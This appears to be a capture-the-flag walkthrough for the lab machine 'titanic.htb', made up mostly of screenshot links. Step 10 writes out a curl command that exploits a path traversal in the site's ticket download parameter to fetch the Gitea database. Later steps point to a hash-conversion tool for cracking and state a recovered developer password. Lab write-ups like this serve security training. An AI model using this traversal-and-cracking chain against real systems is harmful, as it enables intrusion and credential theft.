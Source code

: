 1.
![image](https://github.com/user-attachments/assets/f72b7e3c-e24c-471f-9d02-8fa3c9f09cb5)
2.
![image](https://github.com/user-attachments/assets/6d349333-6c9c-4d90-bd9b-338b1754b8f4)
3.
![image](https://github.com/user-attachments/assets/7dbdb2b1-be09-42ff-a8af-f61d747cd38c)
4.
![image](https://github.com/user-attachments/assets/9457fbf0-6ba3-42c8-bbc6-33ff27047321)
5.
![image](https://github.com/user-attachments/assets/53992a20-54ba-4544-90ee-8d389372115e)
6.
![image](https://github.com/user-attachments/assets/a1a123a2-7bd4-4296-b5c2-034e79a856c1)
7.
![image](https://github.com/user-attachments/assets/1da682df-2b60-46cf-bc22-06bc7bb8e18d)
8.
![image](https://github.com/user-attachments/assets/dda1cb32-52e4-4b8e-8ffc-4114ca6011a9)
9.
![image](https://github.com/user-attachments/assets/97c0c6ce-bbbf-4359-b34b-5de3e5833b09)
10. Finding the Gitea database file named gitea.db, 
**Command: curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db**
![image](https://github.com/user-attachments/assets/04d8a68f-7ba9-4877-974c-d9f95c0e2f7c)
11.
![image](https://github.com/user-attachments/assets/3f19662a-5abd-44b8-9a28-8905f8791bea)
12.
![image](https://github.com/user-attachments/assets/461ed8f3-1a85-466a-9753-c4c4a011e6a6)
13. https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py
![image](https://github.com/user-attachments/assets/08aba89f-caf2-4cc8-8c07-37359834f8af)
14.
![image](https://github.com/user-attachments/assets/44b8defd-9568-4241-b0b1-52fd8578cbd5)
15.
**Pass Developer Account: 25282528**
![image](https://github.com/user-attachments/assets/34d21f2d-c436-4332-b9ee-38e2add7fff8)
16.
![image](https://github.com/user-attachments/assets/eddbd5b6-fcf5-4261-9b7e-9ba829365cd7)
17.
![image](https://github.com/user-attachments/assets/baa04430-f13d-415a-b9ef-cfff22c4a850)
18.
![image](https://github.com/user-attachments/assets/75eb6c75-8fb0-4a71-b60f-b99f705963fa)
19.
![image](https://github.com/user-attachments/assets/b45d28a6-819a-4fd2-a585-6d5151f11e7d)











